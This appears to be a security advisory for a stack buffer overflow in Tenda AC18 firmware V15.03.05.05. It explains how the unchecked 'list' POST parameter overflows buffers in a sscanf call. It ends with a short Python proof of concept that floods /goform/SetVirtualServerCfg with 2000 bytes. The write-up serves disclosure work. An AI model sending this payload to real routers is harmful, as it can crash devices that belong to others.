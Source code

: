 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetVirtualSer` function. The `v5` variable receives the `list` parameter from a POST request and is assigned to function `sub_75F48` as `a2`. However, since the user can control the input of `list`, the statement `sscanf(v17, "%[^,]%*c%[^,]%*c%[^,]%*c%s", v12, v11, v10, v9) == 4` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `v9~v12` array, triggering this security vulnerability.

![image-20240318115253822](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318115253822.png)

![image-20240318120158970](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318120158970.png)

![image-20240318120149133](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318120149133.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetVirtualServerCfg"
payload = b"a"*2000

data = {
        'list':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316221759943](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316221759943.png)
